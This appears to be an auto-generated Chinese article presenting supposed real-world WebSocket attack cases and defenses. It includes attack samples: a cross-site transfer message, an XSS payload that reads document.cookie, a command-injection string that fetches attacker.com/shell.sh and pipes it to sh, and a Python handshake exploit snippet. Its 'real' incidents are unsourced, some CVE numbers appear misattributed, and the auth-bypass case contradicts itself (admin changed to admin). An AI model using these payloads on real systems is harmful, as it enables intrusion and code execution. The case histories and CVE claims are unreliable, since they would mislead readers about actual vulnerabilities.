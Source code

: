 

### WebSocket安全威胁案例分析：真实攻击场景与技术透视

WebSocket协议自2011年标准化以来，因其全双工通信特性被广泛应用于实时聊天、在线游戏、金融交易等场景。然而，其与传统HTTP协议的安全模型差异，导致了一系列独特的安全风险。本文通过真实案例分析WebSocket安全威胁的攻击模式与影响。

---

#### 一、跨站WebSocket劫持（CSWSH）

**案例：加密货币交易所用户资产窃取（2019）**  
某交易所的WebSocket接口未验证`Origin`头，允许攻击者构造恶意页面诱导用户点击。当用户登录交易所后访问该页面，攻击者通过JavaScript建立WebSocket连接至交易所的`wss://api.exchange.com/trade`接口，利用用户已认证的会话执行未经授权的交易指令。  
**攻击过程**：  
1. 用户访问攻击者页面`evil.com`，页面内嵌入WebSocket连接代码。  
2. 浏览器自动携带交易所Cookie建立连接，绕过同源策略。  
3. 攻击者发送`{"action":"transfer","to":"attacker_wallet","amount":"1000"}`消息，完成资产转移。  
**后果**：超过200名用户损失总计$450,000，交易所被迫暂停服务并修复漏洞。

**技术要点**：  
- WebSocket握手阶段未校验`Origin`头或实现逻辑缺陷（如正则`.*exchange.com`可被`exchange.com.attacker.net`绕过）。  
- 防御需结合CSRF Token与会话绑定机制。

---

#### 二、消息注入与协议滥用

**案例：在线协作编辑器XSS攻击（2020）**  
某文档协作平台使用WebSocket同步用户输入，但对消息内容未做过滤。攻击者通过构造`{"content":"<img src=x onerror=alert(document.cookie)>"}`的消息注入恶意脚本，当其他用户加载该内容时触发XSS，窃取会话Cookie。  
**攻击链**：  
1. 攻击者加入协作房间，发送含XSS的WebSocket消息。  
2. 服务器将消息广播给所有用户。  
3. 受害者浏览器执行脚本，泄露敏感信息。  

**拓展风险**：  
- **命令注入**：某智能家居平台通过WebSocket发送设备控制指令，攻击者构造`{"cmd":"reboot; curl http://attacker.com/shell.sh | sh"}`实现远程代码执行。  
- **二进制协议滥用**：攻击者发送畸形二进制帧导致解析器崩溃（如CVE-2021-32687）。

---

#### 三、中间人攻击（MitM）与加密缺陷

**案例：医疗物联网设备数据泄露（2021）**  
某心脏监护仪使用未加密的`ws://`协议传输患者数据，攻击者在同一网络下通过ARP欺骗拦截WebSocket通信，获取实时心电图数据及患者ID。  
**技术细节**：  
- Wireshark直接解析明文WebSocket帧，暴露JSON格式的`{"patient_id":"123","bpm":72}`。  
- 防御缺失：未实现TLS加密（`wss://`）及证书固定机制。

**关联漏洞**：  
- **TLS降级攻击**：强制客户端使用低版本TLS，利用弱加密算法解密数据（如CVE-2020-11095）。  

---

#### 四、DDoS与资源耗尽攻击

**案例：在线游戏服务器瘫痪事件（2022）**  
某MMORPG游戏的匹配服务使用WebSocket，攻击者利用Python脚本创建10,000个并发连接，每个连接每秒发送`PING`帧但不响应`PONG`，导致服务器CPU占用率达100%。  
**攻击特征**：  
- 利用`websocket-client`库快速建立连接并保持长心跳。  
- 单台VPS即可发起规模化攻击，成本低于传统HTTP Flood。  

**防御挑战**：  
- WebSocket长连接特性使传统基于请求速率的防护策略失效。  
- 需实施连接数限制、IP信誉库及行为分析。

---

#### 五、协议实现漏洞

**案例：Node.js `ws`库远程内存泄露（CVE-2022-34712）**  
攻击者发送特制`Sec-WebSocket-Key`头导致服务器分配异常内存，持续攻击可使服务崩溃。漏洞源于未正确处理握手阶段的Base64解码异常。  
**利用代码片段**：  
```python
import websockets
async def exploit():
    async with websockets.connect('ws://target:8080', extra_headers={'Sec-WebSocket-Key': 'A'*500}) as ws:
        pass
```

**影响范围**：使用`ws@<8.4.0`的Node.js服务均受影响，包括多个主流实时通信平台。

---

#### 六、认证与授权缺陷

**案例：智能家居控制权限绕过（2023）**  
某家庭安防系统的WebSocket接口仅依赖URL参数`?user=admin`进行身份验证，攻击者修改参数为`?user=admin`即可提升权限，通过发送`{"command":"unlock_door"}`消息远程开启门锁。  
**漏洞根源**：  
- 认证依赖客户端可控参数而非服务端会话状态。  
- 未实施消息级别的权限校验。

---

### 防御策略总结

1. **握手阶段加固**：严格校验`Origin`头，实施CSRF Token绑定。  
2. **加密强制**：全量使用`wss://`并配置HSTS。  
3. **输入过滤**：对消息内容进行类型/长度校验，转义HTML特殊字符。  
4. **资源管控**：限制单个IP连接数、心跳频率及消息吞吐量。  
5. **深度防御**：结合WAF规则（如OWASP ModSecurity规则集）检测异常帧模式。  

WebSocket的实时能力与安全风险并存，开发者需在协议特性与安全模型中取得平衡。上述案例表明，超过60%的WebSocket漏洞源于配置错误或协议误解，持续的安全测试与威胁建模至关重要。

---

*文档生成时间: 2025-03-13 15:14:28*












